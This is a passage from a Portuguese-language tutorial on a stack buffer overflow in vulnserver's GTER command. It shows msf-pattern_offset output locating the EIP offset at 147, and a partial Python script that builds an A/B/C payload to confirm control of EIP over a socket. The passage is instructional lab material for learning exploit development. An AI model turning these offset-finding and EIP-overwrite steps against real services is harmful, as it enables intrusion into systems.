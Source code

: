 Após reiniciar o vulnserver no Immunity, vamos rodar o script e monitorar o comportamento.

![Enumaração do comando.](/img/std/winbof/winbof-26.png)

Temos o endereço de EIP de 41396541, vamos consultar no msf-pattern_offset.

```bash
$ msf-pattern_offset -l 309 -q 41396541
[*] Exact match at offset 147
```

Sabemos que o offset para atingir o EIP é de 147, vamos enviar 147 “A” + 4 “B” e o restande de “C” para validar. Se o offset estiver correto, nosso EIP será preenchido com “42424242” e os outros 20 bytes com “43”.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# payload a ser enviado
offset = 147

payload = b"GTER /.:/" # funcao inicial
payload += b"A" * offset 
payload += b"B"*4
payload += b"C" * (309 - 147 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
```